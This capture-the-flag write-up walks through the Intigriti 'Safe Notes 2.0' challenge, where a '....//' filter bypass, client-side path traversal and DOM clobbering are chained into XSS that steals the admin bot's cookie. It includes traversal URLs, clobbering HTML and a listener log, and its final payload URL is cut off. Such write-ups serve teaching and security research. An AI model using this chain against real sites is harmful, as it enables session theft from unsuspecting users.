# Safe Notes 2.0

## Video walkthrough

[](https://youtu.be/G-KoF8WAoUM "XSS via CSPT and DOM Clobbering")

## Challenge Description

> After receiving numerous bug bounty reports through the intigriti platform, the developer has implemented some security fixes! They are inviting bug hunters to have another go, so do your thing..

This one might have looked familiar if you play the monthly web challenges released by [Intigriti](https://intigriti.com). As the challenge name indicates, this is a new "secure" version of `Safe Notes`.

I'm not going to recap the previous challenge - if you missed it, it's still [available to play](https://challenge-0824.intigriti.io). Alternatively, you might prefer to review the [official writeup](https://bugology.intigriti.io/intigriti-monthly-challenges/0824) or [video walkthrough](https://www.youtube.com/watch?v=yGRRGUtT9MU) 😇

Since source code is provided, I expect many players will `diff` the two projects to get a quick insight into the developer's adjustments. Let's start by going through each change and evaluating the impact.

## Codebase Updates

### Fixes

1. Prevented CSPT by stripping `../` _after_ URL decoding user input so that hackers can no longer URL-encode to bypass the filter.



```js
// Checking "includes" wasn't sufficient, we need to strip ../ *after* we URL decode
const decodedNoteId = decodeURIComponent(noteId);
const sanitizedNoteId = decodedNoteId.replace(/\.\.[\/\\]/g, '');
fetch("/api/notes/fetch/" + sanitizedNoteId, {
	method: "GET",
	headers: {
		"X-CSRFToken": csrf_token,
	},
```



2. Improved the regex for validating the note ID (added `^` at the start), ensuring players cannot insert potentially dangerous input into the `noteId` parameter.



```js
function isValidUUID(noteId) {
    // Fixed regex so note ID must be specified as expected
    const uuidRegex = /^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$/i;
    return uuidRegex.test(noteId);
}
```



3. Removed the entire `data.debug` section. It was not sanitised correctly, and hackers were exploiting an XSS vulnerability.



```js
if (data.content) {
    document.getElementById("note-content").innerHTML = DOMPurify.sanitize(data.content);
    document.getElementById("note-content-section").style.display = "block";
    showFlashMessage("Note loaded successfully!", "success");
    // We've seen suspicious activity on this endpoint, let's log some data for review
    logNoteAccess(sanitizedNoteId, data.content);
} else if (data.error) {
    showFlashMessage("Error: " + data.error, "danger");
} else {
    showFlashMessage("Note doesn't exist.", "info");
}
// Removed the data.debug section, it was vulnerable to XSS!
```



4. Added a temporary logging mechanism to monitor suspicious activity until the hacking situation is under control!

#### Client



```js
function logNoteAccess(noteId, content) {
    // Read the current username, maybe we need to ban them?
    const currentUsername = document.getElementById("username").innerText;
    const username = currentUsername || urlParams.get("name");

    // Just in case, it seems like people can do anything with the client-side!!
    const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, "");

    fetch("/api/notes/log/" + sanitizedUsername, {
        method: "POST",
        headers: {
            "Content-Type": "application/json",
            "X-CSRFToken": csrf_token,
        },
        body: JSON.stringify({
            name: username,
            note_id: noteId,
            content: content,
        }),
    })
        .then((response) => response.json())
        .then((data) => {
            // Does the log entry data look OK?
            document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2);
            document.getElementById("debug-content-section").style.display = "block";
        })
        .catch((error) => console.error("Logging failed:", error));
}
```



#### Server



```python
# Monitor for suspicious activity
@main.route('/api/notes/log/<username>', methods=['POST'])
def log_note_access(username):
    data = request.get_json()
    note_id = data.get('note_id')
    content = data.get('content')

    if not note_id or not username or not content:
        return jsonify({"error": "Missing data"}), 400

    log_entry = LogEntry(note_id=note_id, username=username, content=content)
    db.session.add(log_entry)
    db.session.commit()

    return jsonify({"success": "Log entry created", "log_id": log_entry.id, "note_id": note_id}), 201
```



5. Removed the open-redirect from `/contact`. Hackers were chaining this with other vulnerabilities to exfiltrate sensitive information.



```python
# People were exploiting an open redirect here, should be secure now!
@main.route('/contact', methods=['GET', 'POST'])
def contact():
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
            username = data.get('name')
            content = data.get('content')

            if not username or not content:
                return jsonify({"message": "Please provide both your name and message."}), 400

            return jsonify({"message": f'Thank you for your message, {username}. We will be in touch!'}), 200

        username = request.form.get('name')
        content = request.form.get('content')

        if not username or not content:
            flash('Please provide both your name and message.', 'danger')
            return redirect(url_for('main.contact'))

        return render_template('contact.html', msg=f'Thank you for your message, {username}. We will be in touch!')

    return render_template('contact.html', msg='Feel free to reach out to us using the form below. We would love to hear from you!')
```



### Changes

1. Since all user input now goes through the latest [DOMPurify](https://github.com/cure53/DOMPurify), [bleach](https://github.com/mozilla/bleach) is no longer required for server-side sanitisation.
2. Improved the `/contact` form. It now provides customised feedback to users.

## Solution

### CSPT

The developer said validating the `nodeId` with `includes` wasn't sufficient since attackers were URL-encoding the `../` to bypass the check.

They mitigated this by URL-decoding the input _first_ and then stripping `../`



```js
const decodedNoteId = decodeURIComponent(noteId);
const sanitizedNoteId = decodedNoteId.replace(/\.\.[\/\\]/g, "");
```



A classic mistake! The `replace` function will replace all instances of `../` in the string _but_ it's not recursive 👀

What does that mean? If we enter `....//`, it will match like `..(../)/`, and remove the characters inside the brackets. What does that leave us with? That's right, `../` 😎

There are some more problems we need to address:

1. The regex for the `noteId` was corrected and doesn't allow any input before the UUID, preventing us from entering `....//`
2. The open redirect was patched on `/contact`, so even without (1), we no longer have a vulnerability to chain our CSPT with.
3. Even without (1) and (2), the `data.debug` section was removed from the note viewing functionality, so all note contents will be sanitised with DOMPurify.

Let's look at some of the other changes made by the developer. One was adding a new "logging functionality" to monitor potential attacks.

The `logNoteAccess` function first retrieves the current username from the HTML. However, if this doesn't exist, it reads the username from a GET parameter.



```js
// Read the current username, maybe we need to ban them?
const currentUsername = document.getElementById("username").innerText;
const username = currentUsername || urlParams.get("name");
```



Regardless of the source, the username is sanitised.



```js
// Just in case, it seems like people can do anything with the client-side!!
const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, "");
```



We know the sanitisation process is flawed, so we should be able to supply a path traversal payload, but to where? The username is included in an API call, but it's not a GET request this time; it's a POST.



```js
fetch("/api/notes/log/" + sanitizedUsername, {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
        "X-CSRFToken": csrf_token,
    },
    body: JSON.stringify({
        name: username,
        note_id: noteId,
        content: content,
    }),
})
    .then((response) => response.json())
    .then((data) => {
        // Does the log entry data look OK?
        document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2);
        document.getElementById("debug-content-section").style.display = "block";
    })
    .catch((error) => console.error("Logging failed:", error));
```



We have a new dangerous sink, though! The JSON response of the API call is being assigned to `outerHTML` _without any validation_.

One thing at a time, let's test the CSPT. If we create a note and add the `name` GET parameter as discussed (`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//`), we'll find the CSPT failed.



We wanted it to traverse back three directories from `/API/notes/log` to `/`, but it didn't, and here's why.



Remember that the username is only read from the GET parameter _if_ it can't be found in the HTML. Sure, we can delete it from the HTML in our browser, but we need to think about the end game; how will we remove it from the victim's browser when the time comes?

### HTML Injection

DOMPurify will sanitise our input to prevent XSS, but it will allow basic HTML, e.g., if we create a new note with some tags.



```html
<i>cryptocat</i> is the <b>best</b>!
```





HTML injection confirmed! [According to Cure53](https://cure53.de/pentest-report_dompurify.pdf):

> **DOMPurify by default prevents DOM clobbering attack**. However, there is a missing check for certain elements that allows clobbering via the name attribute. Normally, only the elements with an id attribute are able to clobber window properties.

### DOM Clobbering

What is [DOM clobbering](https://domclob.xyz) anyway?

> a technique in which you inject HTML into a page to manipulate the Document Object Model (DOM) and ultimately change the behaviour of JavaScript on the page

In our case, we want to ensure the `username` element doesn't exist on the page (or that it is null), enabling us to specify our own `user` via the GET parameter.

Let's create a new note with the following contents.



```html
<p id="username">hacker</p>
```





It still shows `Logged in as: cat`, but let's check the console.



```js
document.getElementById("username").innerText;
```





Nice! How's our API call looking?



Perfect! It made the request using our injected username 😎

We'll change the payload slightly so that the username is `null` and will instead be read from the URL (see if you can work out why we need this step later 😉).



```html
<p id="username"></p>
```



Now let's try our CSPT again.

`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//`





CSPT confirmed ✅

There's a `405: METHOD NOT ALLOWED` because we traversed back to the homepage, which doesn't support POST requests.

### XSS

We've got DOM clobbering and CSPT at our disposal, but we need XSS. We know this because the code hasn't changed much since [v1](https://bugology.intigriti.io/intigriti-monthly-challenges/0824); the admin/bot has a flag in their cookie, and they will visit the URL of a note that we provide.

We no longer have our open redirect in `/contact`, and it wouldn't help us at this stage anyway. However, some other changes were made to the contact form - "user feedback".

When the contact form is submitted, it will take the submitter's name and message and then return a response.



```python
f'Thank you for your message, {username}. We will be in touch!'
```



So, it's a POST form that takes a `name` and some `content` 🤔

We've already hijacked the POST request meant for `/api/notes/log` which also takes a `name` and some `content`. What if we redirect that request to `/contact` using our CSPT?

Without updating our note contents, let's try it!

`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact`



We get a 200 OK, and the message is returned from the contact form!



```json
{ "message": "Thank you for your message, ....//....//....//contact. We will be in touch!" }
```



That's our user input right there! It's not displayed on the screen, though. If we want XSS, we will need it to render. Checking the console, there's an error.



It's triggered from this section of code.



```js
.then((response) => response.json())
.then((data) => {
	// Does the log entry data look OK?
	document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2);
	document.getElementById("debug-content-section").style.display = "block";
})
.catch((error) => console.error("Logging failed:", error));
```





The `debug-content` element doesn't exist, so the response cannot be assigned to it.

Looking through the HTML, it becomes clear why.



```html
<!-- Remember to comment this out when not debugging!! -->
<!-- <div id="debug-content-section" style="display:none;" class="note-panel">
    <h3>Debug Information</h3>
    <div id="debug-content" class="note-content"></div>
</div> -->
```



The developer commented it out in production. Well, what about that DOM clobbering thing?

Let's update the note contents to ensure the element will exist on the page.



```html
<p id="username"></p>
<div id="debug-content-section" style="display:none;" class="note-panel">
    <div id="debug-content" class="note-content"></div>
</div>
```



When we load the note this time (`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c`) it looks a little different. Since the `debug-content` element exists on the page, the output from the `/api/notes/log` call is displayed.



Let's test our path traversal again.

`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact`



Our input is reflected! Now it's time to try a different URL 😈

We want to add an XSS payload to the `name` parameter without interfering with the CSPT path. The best way to do this is by adding a query parameter, e.g., `/contact?xss=`, _but_ we need to URL-encode the `?` (or `#`) to ensure it's not processed by the `/view` endpoint.

`http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=`



We popped an alert! Now we'll set up an attacker server to exfiltrate the cookie and update our payload one final time 😌



```
http://127.0.0.1/view?note=0c7cb26e-9095-48dc-b984-8cc9fcc76b4c&name=....//....//....//contact%3fxss=
```



Note: you do need to URL-encode the `+` to `%2b` in the fetch request.

Checking the server logs, we get a hit containing the user cookie!



```bash
python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [27/Aug/2024 14:49:16] "GET /?cryptocatisthebest HTTP/1.1" 200 -
```



Finally, we just send the exact same URL to admin/bot using the `/report` endpoint and receive the _real_ flag 🚩

Flag: `INTIGRITI{54f3n0735_3_w1ll_b3_53cur3_1_pr0m153}`
